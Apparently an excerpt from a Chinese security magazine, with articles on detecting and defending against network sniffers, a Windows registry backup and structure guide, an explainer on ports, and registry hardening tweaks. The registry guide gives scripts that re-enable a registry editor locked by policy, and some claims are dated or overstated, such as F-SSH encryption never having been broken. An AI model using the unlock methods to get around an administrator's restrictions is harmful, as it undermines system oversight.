Sniffer 最大的危险性就是它很难被发现，在单机情况下发现一个 Sniffer 还是比较容易的，可以通过查看计算机上当前正在运行的所有程序来实现，当然这不一定可靠。

在 UNIX 系统下可以使用下面的命令：`ps -aux`。这个命令列出当前的所有进程，启动这些进程的用户、它们占用 CPU 的时间以及占用多少内存等等。

在 Windows 系统下，可以按下 Ctrl+Alt+Del 键，查看任务列表。不过，编程技巧高的 Sniffer 即使正在运行，也不会出现在这里。

另一个方法就是在系统中搜索，查找可怀疑的文件。但入侵者用的可能是他们自己写的程序，所以这给发现 Sniffer 造成相当大的困难。还有许多工具能用来查看你的系统会不会处于混杂模式，从而发现是否有一个 Sniffer 正在运行。

但在网络情况下要检测出哪一台主机正在运行 Sniffer 是非常困难的，因为 Sniffer 是一种被动攻击软件，它并不对任何主机发出数据包，而只是静静地运行着，等待着要捕获的数据包经过。

### 2．抵御 Sniffer

虽然发现一个 Sniffer 是非常困难的，但是我们仍然有办法抵御 Sniffer 的嗅探攻击。既然 Sniffer 要捕获我们的机密信息，那我们干脆就让它捕获，但事先要对这些信息进行加密，黑客即使捕捉到了我们的机密信息，也无法解密，这样，Sniffer 就失去了作用。

黑客主要用 Sniffer 来捕获 Telnet、FTP、POP3 等数据包，因为这些协议以明文在网上传输，我们可以使用一种叫做 SSH 的安全协议来替代 Telnet 等容易被 Sniffer 攻击的协议。

SSH 又叫 Secure Shell，它是一个在应用程序中提供安全通信的协议，建立在客户／服务器模型上。SSH 服务器分配的端口是 22，连接是通过使用一种来自 RSA 的算法建立的。在授权完成后，接下来的通信数据用 IDEA 技术来加密。这种加密方法通常是比较强的，适合于任何非秘密和非经典的通信。

SSH 后来发展成为 F-SSH，提供了高层次的、军方级别的对通信过程的加密。它为通过 TCP/IP 的网络通信提供了通用的最强的加密。如果某个站点使用 F-SSH，用户名和口令就不再重要了。目前，还没有人突破过这种加密方法。即使是 Sniffer，收集到的信息将不再有价值。有兴趣的读者可以参看与 SSH 相关的书籍。

另一种抵御 Sniffer 攻击的方法是使用安全的拓扑结构。因为 Sniffer 只对以太网、令牌环网等网络起作用，所以尽量使用交换设备的网络可以从最大程度上防止被 Sniffer 窃听到不属于自己的数据包。还有一个原则用于防止 Sniffer 的被动攻击：一个网络段必须有足够的理由才能信任另一网络段。网络段应该从考虑具体的数据之间的信任关系上来设计，而不是从硬件需要上设计。一个网络段仅由能互相信任的计算机组成。通常它们在同一个房间里，或在同一个办公室里，应该固定在建筑的某一部分。注意每台机器是通过硬连接线接到集线器（Hub）的，集线器再接到交换机上。由于网络分段了，数据包只能在这个网段上被捕获，其余的网段将不可能被监听。

所有的问题都归结到信任上面。计算机为了和其他计算机进行通信，它就必须信任那台计算机。系统管理员的工作就是决定一个方法，使得计算机之间的信任关系很小。这样，就建立了一种框架，告诉你什么时候放置了一个 Sniffer，它放在哪里，是谁放的等等。

如果局域网要和 Internet 相连，仅仅使用防火墙是不够的。入侵者已经能从一个防火墙后面扫描，并探测正在运行的服务。应该关心的是一旦入侵者进入系统，他能得到些什么。你必须考虑一条这样的路径，即信任关系有多长。举个例子，假设你的 Web 服务器对计算机 A 是信任的，那么有多少计算机是 A 信任的呢？又有多少计算机是受这些计算机信任的呢？一句话，就是确定最小信任关系的那台计算机。在信任关系中，这台计算机之前的任何一台计算机都可能对你的计算机进行攻击并成功。你的任务就是保证一旦出现 Sniffer，它只对最小范围有效。

Sniffer 往往是在攻击者侵入系统后使用的，用来收集有用的信息。因此，防止系统被突破很关键。系统安全管理员要定期的对所管理的网络进行安全测试，防止安全隐患。同时要控制拥有相当权限的用户的数量，因为许多攻击往往来自网络内部。

### 3．防止 Sniffer 的工具 AntiSniff

AntiSniff 是由著名黑客组织（现在是安全公司了）L0pht 开发的工具，用于检测本地网络是否有机器处于混杂模式（即监听模式）。

一台处于混杂模式的机器意味着它很可能已被入侵并被安装了 Sniffer。对于网络管理员来说，了解哪台机器正处于混杂模式以作进一步的调查研究是非常重要的。

AntiSniff 1.X 版运行在以太网的 Windows NT 系统中，并提供了简单易用的用户图形界面。该工具以多种方式测试远程系统是否正在捕捉和分析那些并不是发送给它的数据包。这些测试方法与其操作系统本身无关。

AntiSniff 运行在本地以太网的一个网段上。如果在非交换式的 C 类网络中运行，AntiSniff 能监听整个网络；如果网络交换机按照工作组来隔离，则每个工作组中都需要运行一个 AntiSniff。原因是某些特殊的测试使用了无效的以太网地址，另外某些测试需要进行混杂模式下的统计（如响应时间、包丢失率等）。

AntiSniff 的用法非常简便，在工具的图形界面中选择需要进行检查的机器，并且指定检查频率。对于除网络响应时间检查外的测试，每一台机器会返回一个确定的正值或负值。返回的正值表示该机器正处于混杂模式，这就有可能已经被安装了 Sniffer。

对于网络响应时间测试的返回值，建议根据第一次返回的数值计算标准值，然后再对在 Flood 和非 Flood 两次测试时返回的结果有较大变化的机器进行检查。一旦这些机器退出混杂模式返回到正常操作模式下，AntiSniff 的下一次测试将会记录到混杂模式和非混杂模式的差值（正值）。

应该周期性地运行 AntiSniff，具体周期值根据不同的站点、不同的网络负荷，测试的机器数量和网站策略等而有所不同。

### 注册表全攻略

作为 Windows 的庞大数据库的注册表，里面包含了许多秘密，熟练操作注册表让您在系统中畅通无阻：可以为系统加上一把安全的大锁，也可以在系统开个大洞……下文介绍的内容一定有您想学的知识。

文／王智雄

### 一、引言

对于普通用户，修改注册表是一种高深莫测的操作，还有注册表中的二进制、十六进制数值都代表着什么呢？很多用户都无法理解，更有人无奈地称注册表为一本“有字天书”。但是毕竟注册表是 Windows 操作系统的核心，只有修改注册表才是最直接最彻底的修改方式；有些软件破解者被破解软件通过反汇编直接跟踪调试程序的方法虽然比较有效，可是花费的时间和精力也是最多的；有些软件根本不需要反汇编也可以破解，那就是修改注册表。再者，看了《黑客防线》2002 年 07 期的《解剖安全账号管理器（SAM）结构》以及《妙改注册表让系统更安全》的文章，相信你一定很想了解注册表。

### 二、注册表的备份和恢复

我之所以把注册表的备份和恢复放在开头来讲，主要因为注册表是 Windows 的核心数据库，存放着各种参数，直接控制着 Windows 的启动、硬件驱动的装载以及一些 Windows 应用程序运行的正常与否，如果改注册表时由于某种原因受到破坏，轻者使 Windows 的启动过程出现异常，重者可能导致整个 Windows 系统的完全瘫痪。因此，注册表的备份和恢复显得尤为重要。但很多朋友遇到过注册表被锁而不能进入注册表编辑器的情况。有时是他人的机器被锁而有时是上次自己故意加锁的，而解锁的方法又忘了。下面提供几个方法供你选用：

- 第一招：如果你有备份，比如你以前曾将 system.dat 和 user.dat 分别备份到 backsys.bak 和 backuser.bak，用它们将现在的两个文件覆盖即可：

```bash
c:\Windows>attrib -h -s -r system.dat
c:\Windows>attrib -h -s -r user.dat
c:\Windows>copy backsys.bak system.dat
c:\Windows>copy backuser.bak user.dat
c:\Windows>attrib +h +s +r system.dat
c:\Windows>attrib +h +s +r user.dat
```

- 第二招：写注册表脚本文件。

```text
REGEDIT4

[HKEY_CURRENT_USER\Software\Microsoft\Windows\CurrentVersion\Policies\System]
"DisableRegistryTools"=dword:00000000
```

REGEDIT4 必须大写并且顶格（Windows 2000/Windows XP 用户可以将“REGEDIT4”写为“Windows Registry Editor Version 5.00”）且下面空一行。用记事本或其他编辑软件存为 .reg 为扩展名的文件，然后双击执行。不过在锁注册表时，高明的人早就将注册表中的 .reg 文件与 regedit 的文件关联给删了，这时可以考虑用下面的招式。

- 第三招：用 regedit 命令。

在纯 DOS 下，regedit 也可用命令行形式使用，例如：

```bash
REGEDIT /D HKEY_CURRENT_USER\Software\Microsoft\Windows\CurrentVersion\Policies\System\DisableRegistryTools 0
```

如果 regedit 命令被删除，则用下面第四招“杀手锏”。

- 第四招：用 vba 写 WSH（Windows Scripting Host）。

```vb
DIM WSH
SET WSH=WSCRIPT.CREATEOBJECT("WSCRIPT.SHELL")
WSH.POPUP("abomber 将为你解开注册表 (abomber@21cn.com).")
WSH.REGWRITE "HKEY_CURRENT_USER\Software\Microsoft\Windows\CurrentVersion\Policies\System\DisableRegistryTools",0,"REG_DWORD"
WSH.POPUP("abomber 已经为你解开了注册表 (abomber@21cn.com).")
```

用记事本写完后存为 .vbs 为扩展名的文件后双击执行即可。

### 1．备份注册表

#### （1）手工备份 Windows 9x/Me 注册表
用户将需要备份的 System.dat 及 User.dat 两个文件复制到硬盘某个分区或目录中，也可将文件复制到软盘上作为备份，恢复是将该备份覆盖到 c:\Windows 目录中即可。

#### （2）在 DOS 下利用 Scanreg.exe 程序备份 Windows 98 注册表
用户利用软盘启动到 DOS 下，进入 DOS 后键入命令“scanreg”，然后选择“start”，随后 scanreg 程序将会检查系统的注册表文件。检查完毕，将会给出用户 3 个选择：“Create Backups（创建备份）”、“View Backups（查看备份文件）”和“Exit（退出程序）”。我们讲的是备份，当然选择“创建备份”了，程序将会自动创建注册表的备份文件。

#### （3）在 Windows 9x/Me 中备份注册表
在 Windows 98 有一个工具叫“注册表检查程序（Scanregw.exe）”，可以使备份注册表的工作变得轻松愉快。在“开始”→“运行”中输入“Scanregw.exe”，当出现询问是否制作备份信息时按“是”，这样就会产生一个 .cab 文件。为了防止这个文件被覆盖，可以按自己的习惯为它们重新命名；也可以这样打开：“开始”→“程序”→“附件”→“系统工具”，单击“系统工具”然后在“工具”菜单中选择“注册表检查程序”，其效果一样。

#### （4）在 Windows 2000 中备份注册表
Windows 2000 中并没有提供类似 regscan.exe 的小工具，用户需要使用注册表编辑器进行导出或导入操作，以达到备份或恢复注册表的目的。可以参考下面恢复注册表的操作。

#### （5）第三方工具备份注册表
除了 Windows 操作系统自带的注册表备份工具之外，用户还可以使用第三方工具软件对注册表进行备份，例如 Winboost 2000、超级兔子、Tweak、Windows 优化大师等软件都有注册表备份的功能。

### 2．恢复注册表

#### （1）在 DOS 下利用 Scanreg.exe 程序恢复注册表
在前面我们提到在 DOS 下用 Scanreg.exe 备份注册表，同样用它也可以恢复注册表，在 3 个选择中选择“查看备份文件”后选择“Restore（还原）”，即可实现注册表的恢复，还原成功后，系统会提示用户重新启动计算机；也可以直接键入命令 Scanreg /Restore 还原。

#### （2）恢复 Windows 2000 下的注册表文件
在 Windows 2000 中，可以通过注册表的导入功能来实现注册表的恢复。

- 导出：
  - a．打开注册表编辑器。
  - b．在“注册表”菜单中单击“导出注册表文件”，再键入要备份注册表文件的名称。
  - c．在“导出范围”里，可以选择“全部”或者“选定的分支”。
  - d．单击“保存”按钮完成导出。

- 导入：
  - a．打开注册表编辑器。
  - b．在“注册表”菜单中单击“导入注册表文件”。
  - c．查找要导入的文件，选中该文件，单击“打开”按钮完成导入。

用户还可以在启动 Windows 2000 时使用备份的注册表来恢复。具体的步骤为：

- a．在任务栏上单击“开始”，然后单击“关闭系统”。
- b．单击“重新启动”之后，单击“确定”按钮。
- c．当用户看到“正在启动 Windows 2000”的信息之后，请按下 F8 键。
- d．使用箭头键选择（即突出显示）“最后一次正确的配置”后回车，启动 Windows 2000。

操作完毕，注册表将被还原到上次成功启动计算机的状态。

#### （3）恢复 Windows 98 下备份的注册表
每次启动 Windows 98 时，“注册表检查程序”将自动扫描注册表。如果“注册表检查程序”发现注册表出现问题时，将自动用备份副本替换注册表。

#### （4）使用 System.1st 恢复注册表
如果用户发现 Windows 9x 操作系统启动时出现故障，而自己又没有做过注册表备份，此时可以使用 System.1st 恢复注册表。Windows 9x 在安装完成后，把第一次正常运行的 Windows 9x 系统信息保存在启动盘（通常为 C 盘）根目录下的 System.1st 文件中，并且不会随 Windows 9x 的系统配置的改变而改变。所以我们通过 System.1st 文件恢复的注册表将系统恢复到最原始的状态。操作步骤如下：

a. 在 DOS 环境下，执行如下系列命令：
```bash
attrib -h -r -s c:\System.1st
attrib -h -r -s c:\Windows\System.dat
copy c:\System.1st c:\Windows\System.dat
attrib +h +r +s c:\System.1st
attrib +h +r +s c:\Windows\System.dat
```

b. 重新启动计算机。

### 三、注册表结构分析

学会了注册表的备份／恢复，你就不会为你的系统无法启动而担心了，在“开始”菜单中，按“运行”按钮，键入“regedit”就可以打开注册表了。好了，下面我们来探讨注册表各项的含义吧。

#### 1. 关于注册表
在较为早期的图形操作系统，如 Win 3.X 中对软硬件工作环境的配置是通过对扩展名为 .ini 文件进行修改完成，由于 ini 文件的大小不能超过 64KB，所以每种设备或应用程序都得有自己的 ini 文件，这样时常出现因 ini 文件遭到破坏而导致系统无法启动的问题。为了使系统运行得更稳定，微软在 Windows 95 及其后继版本 Windows 98、Windows NT、Windows 2000 等操作系统中，推出一种叫做“注册表”的数据库，将设备及应用程序的信息资源、配置信息集中进行管理。

好了，现在让我们比较一下注册表与 ini 文件的不同之处：注册表采用了二进制形式登录数据；注册表支持子键，各级子关键字都有自己的“键值”；注册表中的键值项可以包含可执行代码，而不是简单的字串，在同一台计算机上，注册表可以存储多个用户，管理员和用户通过注册表可以在网络上检查系统的配置，实现远程管理。

#### 2. 注册表的组织结构及分析
Windows 操作系统注册表是按照三层结构组织的，以层叠式结构排列，由根键－键－子键－键值组成。

##### （1）键与子键
键和子键类似于文件管理器中看到的目录结构，在键下面是子键，就像目录可以包含子目录一样。设有特殊的名称标示，以主 HKEY 配置单元的子目录的形式存在且没附带的数据，只负责组织对数据的访问。

##### （2）键值项
键值项类似于硬盘上树型目录的末端文件，键和子键可以包括一个或多个键值项。它包含计算机及应用程序执行时使用的实际数据。键值项由键值名、数据类型和键值 3 个部分组成，其格式为：“键值名：数据类型：键值”。

##### （3）键值类型
- 双字节值：只允许一个键值，并且必须为 1～8 个 16 进制数据（即双字）。
- 字符串值：只允许一个键值，并且作为要存储的字符串来解释。
- 二进制值：只允许一个值，是 16 进制数字串，每对作为一个字节值解释。

##### （4）注册表结构分析
整个注册表由 HKEY_CLASSES_ROOT、HKEY_CURRENT_USER、HKEY_LOCAL_MACHINE、HKEY_USERS、HKEY_CURRENT_CONFIG 5 部分组成，但还是有一个根键 HKEY_DYN_DATA。下面我们来分析各根键的含义：

**HKEY_DYN_DATA**

该根键定义了系统运行中的动态数据，即已发生的事件的有关信息，此数据在每次显示时都是变化的。因此，此根键下的信息没有放在注册表中键和子键中，注册表通过键和子键来管理各信息。

该数据不仅包括系统硬件当前的状态，也包括那些需要更新检索的数据，系统每次启动时都要创建此关键字。

## HKEY_CLASSES_ROOT

该根键下保存了操作系统所有的关联数据、类型标识以及鼠标右键的常规和扩展功能数据等。实际上 HKEY_CLASSES_ROOT 根键是 HKEY_LOCAL_MACHINE\Software\Classes 子键的分支内容的复制，可见该根键在系统中的重要性，更改了它们中的任一部分，内容系统都会自动地对整个注册表相应的部分进行改动。

## HKEY_CURRENT_USER

从字面意义上理解，该根键就是当前登录用户的信息。因此，该根键的内容和 HKEY_USERS 根键下按 SID 列出的内容是相同的，它们之间任何一者的改动都会影响另一方。

## HKEY_LOCAL_MACHINE

该根键下包含了系统和绝大多数应用程序的配置信息，这些设置与当前登录的具体用户无关。该根键包含有 5 个子键：HARDWARE 保存了计算机的所有硬件信息；SOFTWARE 下保存几乎所有的软件配置信息；SYSTEM 下保存了当前系统信息；SAM 和 SECURITY，其中前 3 项内容都是可以由用户进行修改和设定的，但对于 SAM 和 SECURITY，由于它们保存的是 Windows 2000 Server 和 Windows 2000 Advanced Server 的系统安全信息，主要由 Active Directory 用户管理器进行管理，因此用户不能随便对它们进行修改和设定，相应地在注册表编辑器中，这两项内容是灰色的。SAM 的结构可以参看 2002 年 07 期《黑客防线》的《解剖安全账号管理器（SAM）结构》一文。

## HKEY_USERS

该根键可以将用户信息保存到注册表，以便默认的用户和系统当前的登录用户使用这些用户信息数据。用户信息保存在 %SystemRoot%\Profiles\DefaultUser\NTUSER.DAT 文件和针对用户的专用配置文件 %SystemRoot%\Profiles\用户名\NTUSER.DAT 中。在 HKEY_USERS 根键下，各个用户是用其安全标识（SID）列出的，并不显示用户信息。

## HKEY_CURRENT_CONFIG

该根键下保存系统的当前配置。在 Windows 启动时，如果设置了多个配置文件，那么启动时“最后一次正确系统配置”菜单就会被激活供用户选择。该根键下保存的就是启动时所需的硬件配置信息。

## 四、注册表的文件组成

注册表由两个主要文件组成，另外还包括 4 个其他文件：

### 1．系统配置的注册表文件 System.dat

在 Windows 9x 的系统目录 C:\Windows 中有一个隐含、系统、只读文件 System.dat，它是 Windows 98 注册表的一部分，该文件具有如下作用：

- 1. 描述单一的 PC 配置。
- 2. 描述安装在单一 PC 上的消息。
- 3. 安装即插即用类型的设备硬件配置，如设备的 I/O 地址、IRQ 级和 DMA 通道等等的情况。

这个文件在 Windows 98 的网络运行状态时，保存在本地的工作站或本地 PC 机系统中。在 Windows 98 的安装期间，Setup 将首先检查你的计算机上已经安装了的硬件设备，然后在 System.dat 中建立适当的配置项。若从现有的 Windows 3.x 中升级安装 Windows 98，则 Setup 将把现有的 System.ini、Reg.dat 文件中的部分设置项拷贝到 System.dat 中，以保持系统的设置。

我们经常使用“控制面板”的“系统”图标来修改系统的硬件设备和配置情况，这个时候我们进行的操作都是从 System.dat 中读取的系统属性设置。这个文件的作用很类似于 Windows 3.x 中的 System.ini 文件。

### 2．系统配置的注册表备份文件 System.da0

Windows 98 的注册表的一个非常重要的特点就是可靠性强、稳定不易损坏。这就需要靠注册表的备份文件 System.da0。

系统配置注册表 System.dat 的备份文件为 System.da0，该文件在 System.dat 文件遭到意外破坏时，将由系统在启动的时候自动拷贝为 System.dat。这对于并不稳定的 Windows 98 系统来说是非常重要的，至少给系统提供了一点重要的稳定机制。

### 3．用户平台配置的注册表文件 User.dat

在 Windows 98 的系统目录 C:\Windows 中有一个隐含、系统、只读文件 User.dat，它也是 Windows 98 的注册表的重要组成部分，这个文件具有这样的作用：

- 1. 它定义用户优先权；如用户平台设置、运行级等等。
- 2. 特定于某一个用户的应用程序的安装信息、应用程序的使用信息等等。如果你是使用局域网的话，当你在 Windows 98 中使用网络时，User.dat 必须放在网络服务器上。对单机来说，配置了网络属性的是保存在本机的系统目录下的。

在你第一次输入用户名和密码时，Windows 98 程序将把这些信息存储在 User.dat 中，同时你的 Windows 98 的系列号也存储在 User.dat 中。如果用户在“控制面板”的“密码”图标中选择了“用户可自定义首选项及桌面设置登录时，Windows 自动启用个人设置”这个选项后，Windows 98 系统将会为每个用户创建他自己的 User.dat，并且把它保存为 C:\Windows\Profiles\用户名\User.dat。在用户每次登录后，他自己的 User.dat 就会被调入到系统中，同时启动自己相应的程序信息。该文件的作用类似于 Windows 3.x 系统中的 Win.ini 文件。

### 4．用户平台配置的注册表备份文件 User.da0

用户平台配置的注册表文件 User.dat 也有一个备份文件 User.da0。当 User.dat 遭到意外破坏时，将由系统将 User.da0 拷贝为 User.dat，从而使 User.dat 得到恢复。

### 5．网络管理注册表文件 Config.pol

Config.pol 文件是一个隐含、系统、只读文件，它主要用于 Windows 98 网络用户的管理方面的策略。

如果你在 Windows 98 系统里安装了“系统策略编辑器”后，则用户可以使用 Config.pol 文件中的限制来决定系统用户的操作权限如执行程序、修改注册表等等，这也就是说，系统根据 Config.pol 文件中的设置对网络用户的操作作一些限制，这种限制在 Windows 98 系统中被称为“策略”。

### 6．网络管理注册表备份文件 Config.po0

Config.pol 也有一个备份文件 Config.po0，它是一个隐含、系统、只读文件，它存放在网络服务器中。重要是在 Config.pol 损坏时起到恢复作用。

## 五、尾声

以上谈了注册表的备份／恢复、组织结构以及文件组成，希望能够对你进一步的了解注册表有帮助。

### 什么是端口

端口号是一个放在 TCP 和 UDP 的报头中传递的数字。但是如果你只是读了这句话，可能还是不清楚它到底是什么意思，我会帮你解决这个疑问，并且告诉你到底什么是端口。

每一个 Windows 的用户都知道一台计算机可以同时运行一个以上的应用程序，任何一台在 Internet 上的主机可以运行多个基于 Internet 的应用程序。我来给你举个例子，一台位于 212.1.134.138 的服务器运行了多个服务：一个 Web 服务提供给 Web 站点，一个 POP3 接收邮件服务器，一个 SMTP 发送邮件服务器和一个 FTP 服务器。所有的这 4 项服务都运行在同一台计算机上，并且使用同一个 IP 地址，所以当一个数据包到达计算机时，它如何才知道该把哪个数据包送到哪个服务程序去呢？这就是为什么我们使用端口号。

每一项服务都有它自己默认的端口号。服务器的管理员可以改变这些端口号，但是除非用户知道它的新端口号，否则用户就不能连接到这些服务。所以，大部分人让他们的服务运行在默认的端口上，在我上面的这个例子中，Web 服务运行在 80（Web 服务的默认端口）端口上，POP3 运行在 110 端口上，SMTP 运行在 25 端口上，FTP 是 21 端口。

### 妙改注册表
#### 让系统更安全
文/笑男

现在的电脑给人一种弱不禁风的感觉，不是今天受到这个病毒突袭，就是明天受到那个黑客的攻击，出错、死机变得像家常便饭一样了。为了让计算机“坚强”起来，不少人找来了杀毒软件、防火墙，希望通过这些软件增强计算机的免疫力。的确，这些软件在一定程度上增强了计算机抵抗外来攻击的能力，但对于计算机内部系统存在的漏洞就无能为力了。本文的目的主要是向大家介绍一下通过修改注册表的方法，来提高系统的安全。

### 一、隐藏一个服务器

为了保证局域网中服务器上的资源不受其他人的非法访问和攻击，我们从安全的角度考虑，有时需要把局域网中指定的服务器计算机名称隐藏起来，以便让其他局域网用户无法访问到。那么该如何实现呢？下面请看该设置的具体步骤：

- 1. 打开注册表编辑器，并在编辑器对话框中用鼠标依次单击如下分支：HKEY_LOCAL_MACHINE \ SYSTEM \ CurrentControlSet \ Services \ LanmanServer \ Parameters 键值。
- 2. 用鼠标单击该键值下面的 Hidden 数值名称，如果未发现此名称，那么添加一个，其数据类型为 REG_DWORD。
- 3. 接着用鼠标双击此项，在弹出的“DWORD 编辑器”对话框中输入 1 即可。
- 4. 最后单击“确定”按钮，并退出注册表编辑窗口，重新启动计算机，就可以在局域网中隐藏一个服务器了。

### 二、防止其他人非法编辑注册表

注册表是整个系统的灵魂所在，任何对注册表的错误修改都有可能让系统瘫痪。因此，如果你不是一位系统高手的话，最好不要轻易动手修改注册表。当然在公共场所，为了防止那些电脑“菜鸟”们随意更改注册表设置，我们最好还是取消其他用户对注册表进行修改的权利。我们可以按照如下步骤来实现这一目的：

- 1. 首先，在注册表编辑界面中找到 HKEY_CURRENT_USER\Software\Microsoft\Windows\CurrentVersion\Policies 键值。
- 2. 然后在 Policies 键值的下面新建一个 System 主键，如果该主键已经存在的话，可以直接进行下一步。
- 3. 接着在对应 System 主键右边窗口的空白处再新建一个 DWORD 串值，并命名为 DisableRegistryTools。
- 4. 把 DisableRegistryTools 的值设置为 1，设置好以后，重新启动计算机，就可以达到防止其他人非法编辑注册表的目的了。

### 三、屏蔽“控制面板”的访问

由于通过控制面板，我们可以对计算机系统中的绝大部分软硬件进行设置 and 控制，因此，为了防止其他人随意通过控制面板对 Windows 系统进行非法修改，我们就很有必要屏蔽其他用户对“控制面板”的访问了，要实现该功能，我们可以对注册表进行如下修改：

- 1. 首先在开始菜单中的运行栏中输入 Regedit 命令，打开注册表编辑器操作界面。
- 2. 接着在该界面中，依次用鼠标访问 HKEY_CURRENT_USER\Software\Microsoft\Windows\CurrentVersion\Policies\System 键值。
- 3. 随后在对应 System 键值的右边窗口中，用鼠标右键单击该窗口的空白处，并从弹出的快捷菜单中选择“新建”/“DWORD”命令，来新建一个 DWORD 值。
- 4. 把 DWORD 值的名称命名为 NoDispCPL，同时设置 NoDispCPL 的值为 1。

### 四、不允许其他人对桌面进行任意设置

如果在培训时，每台计算机的桌面设置都一样，那么老师说到什么图标或者执行什么操作，每个学员都能迅速找到目标；相反，一旦桌面中的设置被任意修改后，每一台计算机中的设置就会不一样，那么在教学时，就很难保证教学操作的同步性。为此，不少学校机房或者培训机房都对锁定桌面进行了设置。下面是具体的设置步骤：

- 1. 在 Windows 的运行对话框中输入 regedit 命令，来打开注册表编辑器窗口。
- 2. 在编辑窗口中，用鼠标依次访问 HKEY_USERS\Software\Microsoft\Windows\CurrentVersion\Policies\Explorer 键值。
- 3. 在对应 Explorer 键值右边的窗口中，用鼠标双击 “NoSaveSettings” 子键，并将其键值从 0 改为 1。
- 4. 重新启动计算机，上述设置就可以生效了。

### 五、抵御 BackDoor 的破坏

如果你的计算机上网了，那么就存在被黑客攻击的危险，而一旦遭受攻击，你的计算机就会面临着瘫痪或者被监视的安全威胁，其中有一个名叫 BackDoor 的后门程序，专门找系统的漏洞进行攻击。为防止这种程序对系统造成破坏，我们有必要通过相应的设置来预防 BackDoor 对系统的破坏。设置时：

- 1. 首先在注册表编辑器操作窗口中，用鼠标依次单击键值 HKEY_LOCAL_MACHINE\Software\Microsoft\Windows\CurrentVersion\Run。
- 2. 在对应 Run 键值的右边窗口中，如果发现了 “Notepad” 键值，只要将它删除，就能达到预防 BackDoor 的目的了。

### 六、隐藏用户登录名

Win9x 以上的操作系统可以对以前用户登录的信息具有记忆功能，下次重新启动计算机时，我们会在用户名栏中发现上次用户的登录名，这个信息可能会被一些非法分子利用，而给用户造成威胁，为此我们有必要隐藏上机用户登录的名字。

- 1. 在设置时，请用鼠标依次访问键值 HKEY_LOCAL_MACHINE\Software\Microsoft\Windows\CurrentVersion\Winlogon。
- 2. 在对应 Winlogon 键值右边的窗口中，用鼠标右键单击窗口的空白处，从弹出的快捷菜单中选择 “新建” / “字符串” 命令。
- 3. 给新建字符串命名为 “DontDisplayLastUserName”，并把该字符串值设置为 “1”。
- 4. 设置完后，重新启动计算机，就可以隐藏上机用户登录的名字了。

### 七、不允许用户拨号访问

如果用户的计算机上面有重要的信息，有可能不允许其他人随便访问。那么，如何禁止其他人拨入访问你的计算机，减少安全隐患呢？具体步骤为：

- 1. 打开注册表编辑器，并在编辑器中依次展开以下键值：[HKEY_LOCAL_MACHINE\Software\Microsoft\Windows\CurrentVersion\Policies\Network]。
- 2. 在编辑器右边的列表中用鼠标选择 “NoDialIn” 键值，如果没有该键值，必须新建一个 DWORD 值，名称设置为 “NoDialIn”。
- 3. 接着用鼠标双击 “NoDialIn” 键值，编辑器就会弹出一个名为 “字符串编辑器” 的对话框，在该对话框的文本栏中输入数值 “1”，其中 0 代表允许拨入访问功能，1 代表禁止拨入访问功能。
- 4. 退出后重新登录网络，上述设置就会起作用。

### 八、屏蔽对软盘的网络访问

俗话说 “病从口入”，计算机中的病毒有很多都是通过访问不干净的软盘而被感染的，如果我们允许用户通过网络来访问软盘的话，那么整个网络都有可能被感染病毒，最终的结果将会使网络中的所有计算机都中毒瘫痪。为了防止病毒入侵整个网络，我们必须严格管理计算机的输入设备，以断绝病毒的源头，为此就要禁止通过网络访问软盘。设置时，你可以按照如下操作步骤来进行：

- 1. 在系统的运行对话框中输入 Regedit 命令，打开注册表编辑器。
- 2. 在注册表编辑器操作窗口中，依次打开键值 HKEY_LOCAL_MACHINE\SOFTWARE\Microsoft\Windows NT\CurrentVersion\Winlogon；
- 3. 在对应 Winlogon 右边的窗口中，检查一下其中有没有包含键值 AllocateFloppies，如果没有，用鼠标右键单击窗口的空白处，从弹出的快捷菜单中选择“新建”/“DWORD 值”。
- 4. 把新建的 DWORD 值取名为 AllocateFloppies，同时把它的值修改为 0 或 1，其中 0 代表可被域内所有管理员访问，1 代表仅可被当地登录者访问。

### 九、禁止访问“文件系统”按钮

在“系统属性”对话框中，有一个名为“文件系统”的功能按钮，利用它你可以对计算机的硬盘、软盘以及其他移动设备进行相关设置。但为了防止非法用户随意篡改这些设备的设置，你有时需要把“系统属性”中“文件系统”的按钮隐藏起来。下面是具体的设置步骤：

- 1. 打开注册表编辑器窗口，并在窗口中依次访问如下键值：HKEY_CURRENT_USER\Software\Microsoft\Windows\CurrentVersion\Policies\System。
- 2. 在对应 System 键值的右边窗口中，用鼠标单击窗口的空白处，从弹出的快捷菜单中选择“新建”/“DWORD 串值”。
- 3. 给新建的 DWORD 串值，取名为“NoFileSysPage”，并把它的值设置为“1”。
- 4. 设置完后，重新启动计算机就可以使设置生效了。

### 十、让“网上邻居”图标隐藏起来

大家知道，通过网上邻居可以随意访问局域网中其他计算机上的内容，但如果其他计算机没有设置特别的访问权限，那些别有用心的破坏者很有可能利用网上邻居来非法删除其他计算机上的重要数据，给其他计算机造成损失。为了避免这样的损失，我们可以利用注册表来隐藏“网上邻居”。

- 1. 首先在打开的注册表编辑器操作窗口中，用鼠标依次访问键值 HKEY_CURRENT_USER\Software\Microsoft\Windows\CurrentVersion\Policies\Explorer。
- 2. 在对应 Explorer 键值右边的操作窗口中，用鼠标单击窗口的空白处，从弹出的快捷菜单中，用鼠标依次访问“新建”/“DWORD 串值”。
- 3. 给新建的 DWORD 串值命名为 NoNetHood，同时把该值设置为 1（十六进制）。
- 4. 设置好后，重新启动计算机就可以使设置生效了。

### 十一、限制使用系统的某些特性

在网吧或公用场所中，有时为了保证系统的属性不被其他普通用户随意更改，我们就必须要限制使用系统的某些特性。要实现这个目的，我们可以利用修改注册表编辑器的方法来达到。

- 1. 运行注册表编辑器，进入 HKEY_CURRENT_USER\Software\Microsoft\Windows\CurrentVersion\Policies\System 键值。
- 2. 如果不存在该键值，就新建一个。
- 3. 然后将该键值下方的 DisableTaskManager 的值设为 1，表示将阻止用户运行任务管理器。
- 4. 接着将 NoDispAppearancePage 设为 1，表示将不允许用户在控制面板中改变显示模式。
- 5. 下面再将 NoDispBackgroundPage 设为 1，表示将不允许用户改变桌面背景和墙纸。

### 十二、限制用户使用指定程序

为防止用户非法运行或者修改程序，导致整个计算机系统处于混乱状态，我们可以通过修改注册表来达到让用户只能使用指定的程序的目的，从而保证系统的安全。

- 1. 在注册表编辑器窗口中依次打开 HKEY_CURRENT_USER\Software\Microsoft\Windows\CurrentVersion\Policies\Explorer 键值。
- 2. 在对应 Explorer 键值右边的窗口中，新建一个 DWORD 串值，名字取为“RestrictRun”，把它的值设为“1”。
